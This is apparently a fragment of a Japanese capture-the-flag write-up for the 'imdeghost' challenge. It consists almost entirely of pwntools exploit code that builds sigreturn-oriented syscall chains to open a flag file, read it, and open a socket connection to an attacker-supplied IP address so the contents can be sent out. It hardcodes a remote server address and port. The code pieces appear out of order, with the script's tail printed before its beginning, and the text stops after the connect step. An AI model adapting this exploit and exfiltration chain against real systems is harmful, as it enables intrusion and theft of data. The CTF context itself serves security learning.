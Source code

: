 ```python
buf += b"./\x00"
buf += b"A"*(0xe80-len(buf))
buf += p32(0x55550002) + p32(ip_addr)
buf += b"A"*(0xf00+15-len(buf))
#pause()
s.send(buf)

s.interactive()
```

flagファイルを取得するためのpythonコード（サーバから取得する場合には、NATなどを別途設定する必要があります。）
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './imdeghost'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "143.198.127.103"
  PORT = 42007
  s = remote(HOST, PORT)
  ip_addr = 0xbe409f76  
else:
  s = process(BINARY)
  libc = elf.libc
  ip_addr = 0x0100007f  # 127.0.0.1 

s.recvuntil("for you will not be seeing it again.\n")

mem         = 0x6900000000
syscall_ret = 0x13370000004b # syscall; test r14,r14; jne 0x13370000003e; mov rax,r15; ret

def Sigreturn(rax, rbx, rcx, rdx, rsi, rdi, rbp, rsp, rip, r8, r9, r10, r11, r12, r13, r14, r15):
  buf  = p64(0)*5
  buf += p64(r8) + p64(r9) + p64(r10) + p64(r11) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
  buf += p64(rdi) + p64(rsi) + p64(rbp) + p64(rbx) + p64(rdx) + p64(rax) + p64(rcx) + p64(rsp) + p64(rip)
  buf += p64(0) + p64(0x33) + b"AAAAAAAA"*4 + p64(0)
  return buf

buf  = p64(syscall_ret)
# sys_open("./0101111001001101\", 0, 0)
buf += Sigreturn(2, 0, 0, 0, 0, mem + 0xe00, mem + 0x170, mem + 0xf0, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_read(0, mem+0xb00, 0x300)
buf += Sigreturn(0, 0, 0, 0x300, mem + 0xb00, 0, mem + 0x170, mem + 0xf0*2, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_socket(2, 1, 6)
buf += Sigreturn(0x29, 0, 0, 6, 1, 2, mem + 0x170, mem + 0xf0*3, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_connect(1, mem+0xe80, 0x10)
buf += Sigreturn(0x2a, 0, 0, 0x10, mem + 0xe80, 1, mem + 0x170, mem + 0xf0*4, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

```